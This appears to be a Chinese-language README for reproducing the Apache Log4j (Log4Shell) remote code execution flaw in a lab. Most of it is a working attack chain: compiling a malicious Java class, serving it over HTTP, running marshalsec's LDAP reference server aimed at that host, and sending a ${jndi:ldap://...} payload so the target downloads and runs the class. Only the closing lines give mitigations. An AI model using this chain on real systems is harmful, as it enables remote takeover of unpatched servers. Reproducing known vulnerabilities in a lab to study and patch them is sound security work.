 # Apache-Log4j
Apache Log4j 远程代码执行

> 攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置，经阿里云安全团队验证，Apache Struts2、Apache Solr、Apache Druid、Apache Flink等均受影响

### 触发步骤


1. 先编译Log4jRCE，这个是恶意java代码,需要预先编译成恶意java类。注意不要用版本太高的jdk编译，不然jdk低版本的靶机可能无法执行。随后启动http server
   1. cd 切换到存放Log4jRCE.java的文件夹内
   2. 编译 `javac Log4jRCE.java`生成Log4jRCE.class
   3. 启动一个http server，python或php均可快速启动，如`php -S 0.0.0.0:8888`

2. 使用marshalsec的ldap server，访问这个ldap server内的任意资源都会被自动转发到http server的固定资源，这里需要转发到http server中的恶意java类文件
   1. 先clone这个项目`git clone https://github.com/mbechler/marshalsec.git`
   2. cd切换进这个项目内`cd marshalsec`
   3. 构建项目jar包`mvn clean package -DskipTests`
   4. 启动ldap server并配置转发到之前启动的http server内的资源（原理是访问这个ldap服务的任意路由，都会获得http server内的一个固定资源） `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://(这里写http server在公网上的地址及端口)/#Log4jRCE"`
      此时对靶机提交${jndi:idap://ip:1389/{随便写}}即可，ldap server会自动从http server中下载指定资源并返回给靶机。
3. log4j.java是一个简单的漏洞环境实现，在代码中对应位置写好ldap的地址即可。底层原理就是靶机会远程下载Log4jRCE.class，然后执行newInstance()，所以会执行static、构造函数代码。

### 修复方案：

（1）修改jvm参数
-Dlog4j2.formatMsgNoLookups=true

（2）修改配置
在应用classpath下添加log4j2.component.properties配置文件，log4j2.formatMsgNoLookups=true
